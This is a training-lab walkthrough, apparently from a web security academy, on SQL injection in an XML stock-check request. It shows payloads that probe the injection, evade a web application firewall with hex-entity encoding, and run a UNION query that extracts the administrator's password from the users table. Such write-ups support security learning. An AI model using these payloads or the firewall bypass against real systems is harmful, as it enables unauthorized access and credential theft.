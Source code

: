 # SQL injection with filter bypass via XML encoding
# Objective
This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.\
\
The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.
# Solution
Website which checks product availability accepts POST requests from users in XML format.
|![](Images/image-38.png)|
|:--:| 
| *POST request with XML data* |

## Bypass firewall
Payload: `3 order by 1--` in storeId field causes firewall to intercept the request.
|![](Images/image-39.png)|
|:--:| 
| *POST request with XML data* |

In order to bypass firewall it is crucial to use encoding. With help from `Hackvertor` payload can be easily encoded in different formats - below hex_entities encoding was used.\
Payload: `<@hex_entities> 3 union select null <@/hex_entities>` -> Application is vulnerable to SQL UNION injection
|![](Images/image-40.png)|
|:--:| 
| *POST request with XML data* |

## Retrieving administrator's password
```
<@hex_entities>3 union select password from users where username='administrator' <@/hex_entities>
```
|![](Images/image-40.png)|
|:--:| 
| *Successful password retrieval* |